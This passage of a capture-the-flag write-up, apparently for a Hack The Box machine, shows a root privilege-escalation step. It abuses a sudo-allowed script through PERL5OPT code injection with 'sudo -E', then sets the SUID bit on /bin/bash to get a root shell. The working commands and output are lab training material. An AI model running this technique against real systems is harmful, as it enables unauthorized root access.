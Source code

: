 We found that `jack` had special permissions to execute a script called `/opt/monitor.sh` as the `root` user without needing a password. The interesting thing about this script was that it used a Perl-based program called `xml_pp`.

```shell
-bash-5.1$ cat /opt/monitor.sh 
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
-bash-5.1$
```

After some research, we discovered a technique described in a blog post [here](https://www.elttam.com/blog/env/) that allowed us to exploit the situation. By manipulating the `PERL5OPT` environment variable, we could inject malicious code. In this case, we ran the `id` command as `root` to confirm the success of the exploit.

```shell
-bash-5.1$ sudo -E 'PERL5OPT=-Mbase;print(`id`);exit' /opt/monitor.sh 
uid=0(root) gid=0(root) groups=0(root)
```

We also created a script that added the setuid (`SUID`) bit to `/bin/bash`. This bit allows the script to be executed with the permissions of the file's owner, which in this case is `root`. Using the previously mentioned technique, we executed our script, granting us root access.

```shell
-bash-5.1$ cat script.sh 
#!/bin/sh

chmod +s /bin/bash
-bash-5.1$ 
-bash-5.1$ 
-bash-5.1$ sudo -E 'PERL5OPT=-Mbase;print(`./script.sh`);exit' /opt/monitor.sh 
-bash-5.1$ 
-bash-5.1$ 
-bash-5.1$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
-bash-5.1$ 
-bash-5.1$ 
-bash-5.1$ bash -p
bash-5.1# 
bash-5.1# 
bash-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)
bash-5.1# 
bash-5.1# 
```
